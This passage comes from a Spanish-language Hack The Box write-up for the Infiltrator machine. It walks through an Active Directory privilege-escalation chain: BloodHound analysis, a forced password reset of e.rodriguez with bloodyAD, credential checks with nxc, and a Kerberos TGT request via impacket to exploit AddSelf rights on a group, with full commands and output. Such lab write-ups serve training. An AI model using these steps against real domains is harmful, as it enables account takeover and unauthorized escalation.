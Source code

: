 Volviendo a revisar en el `BloodHound`, verificamos que en la OU `MARKETING DIGITAL` se encontraba el usuario `e.rodriguez@infiltrator.htb`.

Por lo tanto, dado que nos hemos otorgado el control total sobre la OU y los objetos secundarios, por ende, deberíamos de tener control total con el usuario `d.anderson@infiltrator.htb` sobre el usuario `e.rodriguez@infiltrator.htb`.

<figure><img src="../../../.gitbook/assets/3773_vmware_Q1dBZ5tiUG.png" alt=""><figcaption></figcaption></figure>

A través de `bloodyAD` realizamos el cambio de contraseña del usuario mencionado. Posteriormente a través de `nxc`,verificamos que el cambio se realizó correctamente.

```bash
❯ bloodyAD --host dc01.infiltrator.htb -d infiltrator.htb -u 'd.anderson' -k set password 'e.rodriguez' 'Password01!'
[+] Password changed successfully!

❯ nxc smb dc01.infiltrator.htb -u 'e.rodriguez' -p 'Password01!' -k
SMB         dc01.infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         dc01.infiltrator.htb 445    DC01             [+] infiltrator.htb\e.rodriguez:Password01!
```

### Abusing AddSelf privileges to add myself on a group

Revisando nuevamente en la ruta que encontramos en `BloodHound`, verificamos que el usuario que disponemos actualmente tiene permisos de `AddSelf` sobre el grupo `CHIEFS MARKETING`.

Por lo tanto, el usuario dispone de permisos para añadirse a sí mismo al grupo mencionado.

<figure><img src="../../../.gitbook/assets/imagen (47).png" alt=""><figcaption></figcaption></figure>

Lo primero de todo será solicitar un TGT (Ticket Granting Ticket) del usuario `e.rodriguez@infiltrator.htb`. Almacenaremos el ticket TGT en la variable `KRB5CCNAME` y validaremos que esté correctamente configurada.

```bash
❯ impacket-getTGT infiltrator.htb/e.rodriguez:'Password01!'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in e.rodriguez.ccache

❯ export KRB5CCNAME=$(pwd)/e.rodriguez.ccache

❯ klist -e
Ticket cache: FILE:/home/kali/Desktop/HackTheBox/Windows/Infiltrator/Infiltrator2/content/e.rodriguez.ccache
Default principal: e.rodriguez@INFILTRATOR.HTB

Valid starting     Expires            Service principal
17/01/25 21:30:25  18/01/25 07:30:25  krbtgt/INFILTRATOR.HTB@INFILTRATOR.HTB
	renew until 18/01/25 21:30:33, Etype (skey, tkt): aes256-cts-hmac-sha1-96, aes256-cts-hmac-sha1-96
```